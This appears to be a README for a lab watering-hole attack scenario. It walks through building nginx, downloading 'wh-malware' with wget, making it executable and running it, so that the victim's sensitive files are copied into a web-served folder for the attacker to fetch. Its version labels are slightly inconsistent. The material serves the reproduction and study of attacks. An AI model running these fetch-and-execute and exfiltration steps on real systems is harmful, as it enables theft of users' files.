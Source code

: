 ## Scenario

The victim user tries to download a series of packages for his environment via `wget`. However, one of the source URLs has been compromised by the attacker, in which the original package has been replaced with a malware `mal-package`. 

After execution, `mal-package` copies sensitive files from the victim's original directory to a shared folder, which provides web sources for the shared nginx server on victim's PC.

Finally, the attack steals those files by connecting and requesting to victim's server.

### Similar



## Implementation

### sources

Ubuntu 16.04: http://mirror.nus.edu.sg/ubuntu-ISO/16.04/    
nginx 1.4.0: http://nginx.org/download/nginx-1.20.2.tar.gz    
wget 1.20.3: https://ftp.gnu.org/gnu/wget/wget-1.20.3.tar.gz

### Deploy

**Nginx server (Victim IP1)**

* build and install
```
tar xzvf nginx-1.20.2.tar.gz && cd nginx-1.20.2
./configure --prefix=/home/chuqi/local/nginx --error-log-path=PATH=/home/chuqi/log/nginx/error.log
make && make install
```

* configure file

Download the `nginx.conf` file in this github dir.
```
mv nginx.conf /home/chuqi/local/nginx/conf/nginx.conf
```

* web sources

Download the folder `web-source` under this github directory.
```
cp web-source /home/chuqi
```

* deploy
```
help: /home/chuqi/local/nginx/sbin/nginx -h
start: /home/chuqi/local/nginx/sbin/nginx
stop: /home/chuqi/local/nginx/sbin/nginx -s stop
```

**Operations (Victim IP1)**

0. Start nginx server

```
/home/chuqi/local/nginx/sbin/nginx
```

1. Download several packages via wget 
```
wget https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-malware https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg1 https://github.com/Icegrave0391/attack-scenarios/releases/download/v0.1-watering-hole/wh-pkg2

chmod 777 wh-*
```
2. Execute `wh-malware`

```
./wh-malware
```

**Exploit (Attacker IP2)**    

Access victim's web-server on attacker's browser:
```
IP1:8080/data/xxx
IP1:8080/images/xxx
```

